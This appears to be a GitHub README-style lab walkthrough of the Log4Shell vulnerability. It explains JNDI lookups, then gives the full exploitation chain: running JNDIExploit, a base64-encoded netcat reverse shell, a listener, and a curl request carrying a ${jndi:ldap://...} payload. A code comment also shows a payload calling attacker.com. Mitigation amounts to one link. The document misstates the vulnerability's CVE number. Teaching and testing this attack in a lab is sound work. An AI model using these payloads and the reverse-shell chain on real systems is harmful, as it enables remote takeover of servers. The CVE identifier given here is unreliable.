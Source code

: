 # log4shell

![fire log4j](./images/fire.jpeg)

`CVE-2021-22448` a zero-day critical java vulnerablility leads to Remote Code Execution (RCE), if you wanna read the story of vulnrability check this [article](https://www.lunasec.io/docs/blog/log4j-zero-day/)

> I lost my md files of this [blog](https://b0yk4.github.io/), this md file is temporary until i rebuild and update my blog.

Here I will talk about much technical details, how the exploit works, how to exploit and how to metigate.

Tools needed:
- [docker container](https://docs.docker.com/engine/install/ubuntu/)
- [vulnrable app](https://github.com/christophetd/log4shell-vulnerable-app)
- [JNDIExploit](https://web.archive.org/web/20211212102424/https://github.com/feihong-cs/JNDIExploit/)

## overview

This whole massive story is because of a variable get logged by `log4j` library 
```java
log.info("user name: ", userName);
```
And if this variable is controlled by the user whether it's an http header or any user input then the user can do arbitrary code execution with this variable value using the log4j format 
```txt
${java:version}
```
So any java application using log4j library for logging will be vulnerable not just `apache` it could be laterally **any java application** 

## log4j library
log4j has [lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html) feature, Lookups provide a way to add values to the Log4j configuration at arbitrary places. As we said java version as example `${java:version}`

The lookup we intersted in is `jndi lookup` which enalbles the app to communicate with `ldap` server.

![JNDIarch](./images/jndiarch.jpg) 

in normal scenario the `jndi` expects to recieve a java class from the `ldap` server
![JNDI](./images/jndi-ldap.png)

the abusing of this lookup is to make our ldap server and call it by changing the logged variable with `${jndi:ldap://our-ip:1389/malitious-class}`

![JNDI exploit](./images/jndi-ldap-exploit.png)

vulnerable code example:
```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import java.sql.SQLException;
import java.util.*;

public class VulnerableLog4jExampleHandler implements HttpHandler {

  static Logger log = LogManager.getLogger(VulnerableLog4jExampleHandler.class.getName());

  /**
   * A simple HTTP endpoint that reads the request's x-api-version header and logs it back.
   * This is pseudo-code to explain the vulnerability, and not a full example.
   * @param he HTTP Request Object
   */
  public void handle(HttpExchange he) throws IOException {
    String apiVersion = he.getRequestHeader("X-Api-Version");

    // This line triggers the RCE by logging the attacker-controlled HTTP header.
    // The attacker can set their X-Api-Version header to: ${jndi:ldap://attacker.com/a}
    log.info("Requested Api Version:{}", apiVersion);

    String response = "<h1>Hello from: " + apiVersion + "!</h1>";
    he.sendResponseHeaders(200, response.length());
    OutputStream os = he.getResponseBody();
    os.write(response.getBytes());
    os.close();
  }
}
```

## set up vulnerable app

after installing [docker container](https://docs.docker.com/engine/install/ubuntu/), clone the vulnerable app and build it 

```sh
git clone https://github.com/christophetd/log4shell-vulnerable-app.git
cd log4shell-vulnerable-app
sudo docker build . -t vulnerable-app
```
run the app on port 8080 or any port you want
```sh
sudo docker run --rm -p8080:8080 vulnerable-app
```
now we have a server up and running with a vulnerable app

## exploitation
get the JNDI injector and run it with your machine ip
```sh
wget https://web.archive.org/web/20211210224333/https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip
unzip JNDIExploit.v1.2.zip
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.96.133
```
this JNDIExploit takes the commands and converts it to java class and send it back to the server interface

![JNDIExploit](./images/exploit1.png)

we need a reverse shell to connect back to our kali machie 
```sh
echo -n "nc 192.168.96.133 4444 -e /bin/sh"|base64
```
bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No

lets set netcat listener
```sh
nc -lvvp 4444
```

now its time to send the malitious string as a value of `X-Api-Version` http header, which will connect to our running JNDI injector with `ldap` on port `1389` giving it our reverse shell command
```sh
curl -H 'X-Api-Version: ${jndi:ldap://192.168.96.133:1389/Basic/Command/Base64/bmMgMTkyLjE2OC45Ni4xMzMgNDQ0NCAtZSAvYmluL3No}' 192.168.96.134:8080
```
the injector will send the malious java class to the target which will execute the command and gives us the shell

![shell](./images/exploit2.png)

## mitigation

follow [this guide](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide/) for mitigation


